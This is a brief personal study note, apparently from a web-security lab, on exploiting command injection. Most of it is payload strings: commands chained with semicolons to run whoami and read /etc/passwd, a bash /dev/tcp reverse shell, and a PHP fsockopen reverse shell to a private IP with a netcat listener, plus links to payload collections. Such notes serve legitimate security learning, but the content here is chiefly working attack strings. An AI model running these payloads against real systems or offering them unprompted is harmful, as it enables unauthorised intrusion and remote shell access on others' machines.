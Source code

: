 - way to exploit command injection vuln:
`;whoami;asd`
`;ls -lah ;  asd` (formatted in inspection)
`;cat etc/passwd ; asd`
>[!note]
>this site [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings)
>[tutor notes](https://appsecexplained.gitbook.io/appsecexplained/common-vulns/injection/command-injection)

- reverse shell
`;bin/bash -i >& /dev/tcp/10.0.0.1/4242 0>&1;asd` :failed after`nc -nlvp 4444 and ip a

so try a php :
`;which php;asd`  (usr/local/bin/php)
`ip a` and `nc -nlvp 4444 10.0.2.15`
`;/usr/local/bin/php -r '$sock=fsockopen("10.0.2.15",4444);exec("/bin/sh -i <&3 >&3 2>&3");';asd`

the u can run commands there in shell: whoami , ls -lah / ,hostname....